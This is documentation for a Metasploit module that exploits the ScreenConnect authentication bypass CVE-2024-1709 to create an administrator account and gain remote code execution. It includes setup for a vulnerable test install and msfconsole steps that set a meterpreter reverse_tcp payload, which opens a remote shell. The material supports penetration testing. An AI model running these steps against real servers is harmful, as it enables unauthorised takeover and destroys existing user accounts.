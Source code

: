 ## Vulnerable Application
This module exploits an authentication bypass vulnerability that allows an unauthenticated attacker to create
a new administrator user account on a vulnerable ConnectWise ScreenConnect server. The attacker can leverage
this to achieve RCE by uploading a malicious extension module. All versions of ScreenConnect version 23.9.7
and below are affected.

**Note:** The vulnerability will replace the ScreenConnect systems existing User.xml file, meaning existing user
accounts will be removed after exploitation.

## Testing
* Download a vulnerable version of the software by visiting: 
  * https://screenconnect.connectwise.com/download/archive, for example download the file
[ScreenConnect_23.9.7.8804_Release.msi](https://d1kuyuqowve5id.cloudfront.net/ScreenConnect_23.9.7.8804_Release.msi)
* Request a trial license if you do not already have one.
* On a Windows system, click through the installer to install the product and complete the installation in your
web browser as instructed. 
* Once completed, you can login by visiting http://127.0.0.1:8040/ in your browser.

## Verification Steps
1. Start msfconsole
2. `use exploit/multi/http/connectwise_screenconnect_rce_cve_2024_1709`
3. `set target 0`
4. `set payload windows/x64/meterpreter/reverse_tcp`
5. `set LHOST eth0`
6. `set RHOST <TARGET_IP_ADDRESS>`
7. `check`
8. `exploit`

## Options

### USERNAME
The username to use when creating a new administrator user account. Will default to a random 8 character value. This
value must not be empty.

### PASSWORD
The password to use when creating a new administrator user account. Will default to a random 16 character value. This
value must not be empty and must be 8 characters or more.

## Scenarios
